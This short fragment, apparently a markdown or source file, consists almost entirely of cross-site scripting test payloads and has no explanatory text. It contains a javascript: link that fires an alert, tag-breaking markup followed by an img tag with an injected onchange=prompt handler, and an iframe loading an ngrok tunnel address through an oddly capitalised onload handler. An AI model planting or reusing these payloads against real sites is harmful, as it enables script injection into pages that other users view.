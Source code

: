 # <a href="javascript:alert('XSS Attack!');">Click me</a>
<!---></div></article></p><img src='https://in.pinterest.com/pin/932245191599758496 onchange=prompt(1)></img>
<iframe src='https://81d2-2405-201-5c2b-b043-cf5d-d07b-da69-b547.ngrok-free.app' onONLOAD=promot('xss')>clickem</iframe>
